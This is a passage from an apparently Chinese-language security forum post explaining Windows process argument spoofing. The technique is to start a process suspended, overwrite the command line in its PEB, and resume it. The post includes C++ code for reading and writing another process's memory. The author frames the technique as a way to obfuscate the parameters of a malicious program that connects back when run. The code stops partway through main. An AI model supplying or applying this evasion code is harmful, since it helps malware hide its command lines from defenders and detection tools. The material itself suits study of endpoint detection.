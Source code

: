 ```php
    ProcessInformation.PebBaseAddress->ProcessParameters->ImagePathName.Buffer = commandline;
    getchar();
    return 0;

}
```

看到commandline已被更改：

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-1c4d6d6cae3082d987ce04da6b1bdc419f1f00d2.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-1c4d6d6cae3082d987ce04da6b1bdc419f1f00d2.png)

因为我们的恶意程序是单文件的，点击执行就上线了，配合上面的技术可能不是很优雅，感觉起不到啥作用，但是如果是带参数的恶意程序，如果把进程参数改了，那就比较优雅了，起到了一点混淆的作用。在[argument\_spoofing.cpp](https://gist.github.com/xpn/1c51c2bfe19d33c169fe0431770f3020#file-argument_spoofing-cpp)也提供了对应的思路：

- 创建挂起的进程
- 修改进程PEB
- 恢复进程运行

代码如下：

```php
#include <iostream>
#include <Windows.h>
#include <winternl.h>

typedef NTSTATUS(*NtQueryInformationProcess2)(
    IN HANDLE,
    IN PROCESSINFOCLASS,
    OUT PVOID,
    IN ULONG,
    OUT PULONG
    );

void* readProcessMemory(HANDLE process, void *address, DWORD bytes) {
    SIZE_T bytesRead;
    char *alloc;

    alloc = (char *)malloc(bytes);
    if (alloc == NULL) {
        return NULL;
    }

    if (ReadProcessMemory(process, address, alloc, bytes, &bytesRead) == 0) {
        free(alloc);
        return NULL;
    }

    return alloc;
}

BOOL writeProcessMemory(HANDLE process, void *address, void *data, DWORD bytes) {
    SIZE_T bytesWritten;

    if (WriteProcessMemory(process, address, data, bytes, &bytesWritten) == 0) {
        return false;
    }

    return true;
}

int main(int argc, char **canttrustthis)
{
    STARTUPINFOA si;
```